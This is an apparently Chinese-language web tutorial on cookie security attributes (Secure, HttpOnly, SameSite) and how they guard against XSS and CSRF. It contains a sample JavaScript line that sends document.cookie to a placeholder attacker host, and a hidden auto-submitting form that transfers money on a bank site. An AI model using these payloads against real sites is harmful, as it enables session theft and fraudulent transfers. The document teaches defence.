 如果 cookie 設了 `secure` 參數，只有透過 https 存取這個網站才能存取這個 cookie；透過 http 存取這個網站會看不到這個 cookie。

這個參數的作用在於保護 cookie 只能在 https 傳遞。話雖如此，我們還是不能將敏感資訊儲存在 cookie 中。

### HttpOnly

`HttpOnly` 參數的作用是防止 JavaScript 存取 cookie。

當一個 cookie 設置了 `httpOnly` 的屬性之後，JavaScript 就不能存取這個 cookie，但是瀏覽器在發送 request 的時候還是會幫你帶在 request header 裡面。

這個參數的設計是為了安全性考量，因為如果 JavaScript 能夠存取這個 cookie 就有受到 XSS Attack (Cross-Site Scripting，跨站腳本攻擊) 的風險。

什麼是 XSS Attack (跨站腳本攻擊) 呢？簡單的說，就是將一段惡意的 JavaScript 程式碼透過表單等方式上傳到 server，之後這份表單資料在前端呈現的時候惡意的 JavaScript 程式碼會被當成是 HTML 的一部分被執行。假設壞人能夠執行 JavaScript，便能很輕易地存取 `document.cookie`，就能夠竊取你用來登入的 cookie，並且用你的身份做惡意的操作：

```javascript
// 把你的 cookie 送到壞人的伺服器
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

這就是為什麼我們需要禁止 JavaScript 存取 cookie。

### SameSite

`Samesite` 的作用是防止 cookie 以跨站方式傳送，可以幫助避免 CSRF (Cross-Site Request Forgery，跨站請求偽造) 攻擊。要理解 SameSite 如何幫助防止 CSRF 攻擊之前，我們需要先理解 CSRF 攻擊。

CSRF 攻擊是什麼呢？簡單地說，他會在受害者已登入的狀態下，假借受害者的身份進行惡意操作，例如把受害者銀行裡的錢轉到攻擊者自己的帳戶中。

那具體而言 CSRF 攻擊如何進行？

1. 假設含有使用者的機敏資訊網站叫做 bank.com，使用者成功登入 bank.com 後會收到一個加密過後的代表他的身份的 cookie，後續的 request 都會帶有這個 cookie。因為 cookie 經過加密無法輕易偽造，所以 server 可以認證 request 是來自這個使用者本人，也會同意他的轉帳等敏感操作。
2. 壞人透過釣魚信件等方式讓你不小心進到壞人的網站 evil.com，網頁包含一小段發送表單的代碼，會把 bank.com 的錢轉到壞人的戶頭：

```html
<form action="https://bank.com/transfer" method="POST">
  <input type="hidden" name="account" value="john">
  <input type="hidden" name="amount" value="1000000">
  <input type="hidden" name="for" value="badguy">
</form>
<script>window.addEventListener('DOMContentLoaded', (e) => { document.querySelector('form').submit(); }</script>
```

因為送往 bank.com 的 request 都會帶有用來表示身份的 cookie，包含發送表單的 POST request，所以 server 會認為這個 request 沒有問題，然後錢就轉給壞人了～

> 註：一般而言會在表單中多帶一個 server 產生的 CSRF token 去防範此攻擊，但與 `SameSite` 兩個防護措施可同時並行。

> 註：在 evil.com 內發送 bank.com 的請求的情境下，back.com 的 cookie 就是所謂的[第三方 cookie](https://shubo.io/cookies/#third-party-cookie-第三方-cookie)。

這裡的關鍵是：這個 POST 是一個**跨域請求**。什麼是跨域請求呢？**當一個請求的網域和網址列中的網域不同的時候，它就是一個跨域請求。**這裏我們可以看到，瀏覽器的網址列中的網域是 evil.com，但是我們送了一個往 bank.com 網域的 POST request，所以這是一個跨域請求。

**而跨域請求攜帶 cookie 就會有遭受 CSRF 攻擊的風險。**
